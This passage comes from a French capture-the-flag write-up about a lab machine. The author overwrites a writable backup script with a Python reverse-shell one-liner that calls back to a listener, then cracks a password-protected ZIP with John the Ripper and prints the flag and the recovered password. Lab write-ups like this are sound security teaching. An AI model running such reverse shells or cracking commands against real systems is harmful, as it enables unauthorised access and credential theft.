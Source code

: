 On peut donc en déduire que si on arrive à exploiter le script alors on aura un accès en tant que vanshal.

```bash
ls -la /media/programmer/scripts/backup.sh
-rwxr-xr-x. 1 programmer prome 20  7 juil. 14:53 /media/programmer/scripts/backup.sh
```

La modification nous est accessible, de ce fait on peut obtenir un reverse shell. Malheureusement **netcat** n'est pas présent, on va donc utiliser **python** :

```bash
echo "python -c \"import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('192.168.1.16',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);\"" > /media/programmer/scripts/backup.sh
```

Côté de notre machine on lance netcat en mode listener :

```bash
nc -lnvp 4444
```

Et après quelques instants on obtient un shell en tant que vanshal !

On peut récupérer le flag de l'utilisateur :

```
cat local.txt
		
		░██████╗░░█████╗░██╗███╗░░██╗  ██████╗░░█████╗░░██╗░░░░░░░██╗███████╗██████╗░
		██╔════╝░██╔══██╗██║████╗░██║  ██╔══██╗██╔══██╗░██║░░██╗░░██║██╔════╝██╔══██╗
		██║░░██╗░███████║██║██╔██╗██║  ██████╔╝██║░░██║░╚██╗████╗██╔╝█████╗░░██████╔╝
		██║░░╚██╗██╔══██║██║██║╚████║  ██╔═══╝░██║░░██║░░████╔═████║░██╔══╝░░██╔══██╗
		╚██████╔╝██║░░██║██║██║░╚███║  ██║░░░░░╚█████╔╝░░╚██╔╝░╚██╔╝░███████╗██║░░██║
		░╚═════╝░╚═╝░░╚═╝╚═╝╚═╝░░╚══╝  ╚═╝░░░░░░╚════╝░░░░╚═╝░░░╚═╝░░╚══════╝╚═╝░░╚═╝


		   You successfully owned the user of this box :-) Best of Luck for the root 


flag: 5c2a29d7b95868da9e503502f301e8dd

Twitter : VanshalG
```

Un fichier **ZIP** est présent dans ``/home/vanshal``. On va le récupérer sur notre machine locale pour voir ce qu'on peut en faire.

En local après avoir tenté de le ``unzip`` on se rend compte qu'il est protégé par un mot de passe.                                               
On va donc essayer de le bruteforce avec **JohnTheRipper**.

J'ai fait un article [ici](https://kr0wz.github.io/fr/2020/06/28/john-the-ripper.html) à ce sujet si ça vous intéresse.

```bash
/opt/JohnTheRipper/run/zip2john secret.zip > zip.hash
/opt/JohnTheRipper/run/john --wordlist=/usr/share/wordlist/rockyou.txt zip.hash

81237900         (secret.zip/Mypasswords.txt)
```
